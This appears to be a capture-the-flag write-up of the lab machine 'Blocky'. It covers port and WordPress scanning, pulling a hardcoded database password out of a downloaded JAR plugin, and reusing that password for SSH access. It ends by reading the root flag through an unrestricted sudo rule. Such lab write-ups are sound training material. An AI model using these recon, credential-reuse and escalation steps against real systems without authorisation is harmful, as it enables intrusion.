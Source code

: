 # Blocky


## Recon

### Service Discovery
Begin, as usual, with an `nmap` scan:

```
$ nmap -sV -sC -T4 -oN nmap_scan.txt 10.10.10.37
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The target is a Unix box that is running FTP, SSH, and HTTP. Since the site is
built on WordPress, let's run `wpscan` to enumerate users and vulnerable
plugins:

```
$ wpscan --url http://10.10.10.37 --enumerate u, vp -o wpscan.log

...REDACTED...

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...REDACTED...
```

I redacted some of the scan info, but we can see that there is a Notch user.
Let's use `gobuster` to find a hidden admin login panel:

```
$ gobuster dir -u http://10.10.10.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt | tee gobuster.txt

/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
```

Looks like we can login to either /wp-admin or /phpmyadmin. At this point, we
can try to brute force the credentials with a tool like `hydra`. However, I
wanted to continue looking around the website for any other key info.


### Information Discovery

In the /plugins folder are two JAR (**J**ava **A**rchive) files. Download and
extract them.

```
$ wget http://10.10.10.37/plugins/files/BlockyCore.jar 
$ wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
$ jar -xf BlockyCore.jar
$ jar -xf griefprevention*.jar
```

Both files are now extracted. I was able to find something interesting by
running `strings` on com/myfirstplugin/BlockyCore.class:

```
$ strings com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                                                                                                                                     
java/lang/Object                                                                                                                                                                                                 
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

We see the username `root` and password `8YsqfCTnvxAUeduzjNSXe22`! I used these
credentials to log into the /phpmyadmin page, but they did not work on the
/wp-login page.

In the phpmyadmin panel I found the below user information:

![wp_users](./screenshots/wp_users.png)

There's the password hash for the Notch user!

[CrackStation](https://crackstation.net/) was unable to crack this, so I
searched online for "$P$ hash". 
I found [this StackOverflow
post](https://stackoverflow.com/questions/1045988/what-type-of-hash-does-wordpress-use)
that states WordPress uses the [portable PHP password hashing
framework](https://www.openwall.com/phpass/).

I figured if I could login to the wp-login page, I could upload a PHP reverse
shell and compromise the machine. I went down a rabbit hole trying to crack
Notch's password with this [Python script I pulled from
GitHub](https://github.com/micahflee/phpass_crack). 

This did not work. Next, I tried changing Notch's password to "password "in the
phpmyadmin
panel:

![edit password](./screenshots/edit.png)

However, this did not work either - I still could not login to the WordPress
account! At this point I gave up on the WordPress website and moved on to
exploring the FTP and SSH servers.

## Initial Foothold (success)

Using the credentials **notch:8YsqfCTnvxAUeduzjNSXe22** I successfully logged
into the FTP and SSH servers.

The user flag is found in the `user.txt` file.

## Privilege Escalation

Now we need to find the root flag. One privilege escalation technique that I
always start with is running `sudo -l` to list what, if any, commands the
current user
can run as root.

```
$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

The "(ALL : ALL) ALL" means we can run all commands as root! So we can easily
`cat` out the root flag:

```
$ sudo cat /root/root.txt
```
